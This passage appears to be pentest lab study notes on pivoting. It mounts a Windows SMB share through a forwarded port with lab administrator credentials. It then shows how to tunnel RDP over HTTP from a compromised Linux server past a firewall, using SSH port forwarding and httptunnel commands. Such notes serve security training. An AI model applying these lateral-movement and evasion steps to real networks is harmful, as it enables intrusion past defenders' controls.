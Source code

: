   
Timeout error usually due to a port forwarding error.  
  
**BUT**, we can still mount & interact w/ the share:  
```bash
sudo mkdir /mnt/win10_share  
  
sudo mount -v -t cifs -o unc=\\\\10.11.0.22\\Data,port=4455,vers=3,username=Administrator,password=lab /mnt/Win10share  
  
ls -l /mnt/win10_share/  
	total 1  
	-rwxr-xr-x 1 root root 7 Apr 17  2019 data.txt  
  
cat /mnt/win10_share/data.txt  
	data 
```

****NOTE: If there's an _/etc/fstab_ error, you'll need to add the mount point to the _/etc/fstab_ file  
```bash
//192.168.126.10/Data /mnt/Win10share cifs defaults,vers=3 0 0
```


 
### HTTP Tunneling:

Scenario:  
	Compromised Linux server, elevated privs to root, & gained access to all pwds.  
	Discovered a WinServer 2016 web server on internal network.  
	(for this example, assume a deep packet content inspection feature has been implemented that'll only allow HTTP protocol)  
	SSH-based tunnels won't work btw the server & attack box (will work fine on internal networked machines)  
	Firewall btw Linux server & Kali only allows 80, 443, 1234 in/out.  
	80 & 443 - web server; 1234 - oversight & not mapped to any listening port in the internal network.  
  
  
Goal: Initiate a remote desktop connection from our attack machine to the Win Server2016 through the compromised Linux server only using HTTP.  
  
We'll put **hts** on compromised Linux server (s.t.u.v) & **htc** on attack box (a.b.c.d) & and SSH tunnel btw Linux server (s.t.u.v) and Server2016 (w.x.y.z)   
  
![[httptunnel.png]]
  

Add an SSH port forward from our compromised Linux server (s.t.u.v) on the internal network to the Server2016 (w.x.y.z) (student@debian):
```bash
ssh -L 0.0.0.0:8888:<Server2016_IP>:3389 student@127.0.0.1
```
  
Create an HTTP-based tunnel btw machines:  
	Input will be on our attack maching (kali) @ 8080  
```bash
htc --forward-port 8080 <LinuxServer_IP>:1234
```
